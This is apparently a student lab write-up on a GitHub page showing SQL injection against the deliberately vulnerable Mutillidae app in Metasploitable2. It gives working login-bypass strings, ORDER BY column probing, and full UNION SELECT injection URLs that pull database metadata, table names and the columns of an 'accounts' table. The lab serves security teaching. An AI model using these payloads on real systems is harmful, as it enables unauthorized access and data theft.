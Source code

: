# sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/3242ef5b-2cad-420a-b6d7-e5882ce17ebd)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/1a70bb63-70f4-4fe8-aa15-221adb647146)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/7f3d61d4-ed84-475d-a627-995dc8803656)

Click on the menu Login/Register and register for an account
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/9e405eee-bba2-44bf-a987-c71239fb56a4)

Click on the link “Please register here”
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/5e3f84b8-6032-4a4d-9abf-7d40108a7541)

Click on “Create Account” to display the following page:
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/e9624bf1-5d5b-4425-9b3c-d7319af6753b)

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/1b7f9538-7f82-482c-b0be-adeb192be3a6)

Click “Login”. The logged in page will show as below:
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/9e8e7d9f-d714-4756-b406-511712094804)

##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/ffc44ed6-1182-48dd-863c-2ffa29704a98)

Click the login button and you will see it enter into the administrator page.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/44392be5-efff-43ea-903e-5d362da9a182)

## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below:
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/a32caed2-7d7b-4769-85a9-503cd936d5a7)


![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/c7696b3a-c62f-4912-8898-0e4a3b578422)


![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/592b4943-2ccc-4440-8a06-8402430e512f)


![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/f2f8b084-fbf6-44a0-9931-0a929986e78c)


![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/a8f98ae2-70db-4b96-a91f-cae6e429714f)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/de07fdd6-f197-4ecd-8bc9-71d39b0a5513)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/0b172a00-aebd-4e78-966a-cdcc2d25c424)

After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/377fe020-ebbd-4279-aa35-68b29d5010b2)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/30bbc5e6-0efc-401a-a8b0-0ca657d7b7f3)

As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/11437ebe-c4a0-4690-8503-58e0b5f67947)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/1cad5825-7f25-4d5d-85d6-8158046486a1)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/24567fd9-1f56-4700-a905-37f9b51e3cf9)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/742af93e-720a-42e2-93bc-2eb7ee7bf10a)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/0d3223d2-9931-44a2-bea6-ac7ebb9a90ff)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/9e7baea6-b543-4781-b0b5-b6186030e2c6)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/12b6f8b0-aec2-4ecd-a99f-68f92f011eea)

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
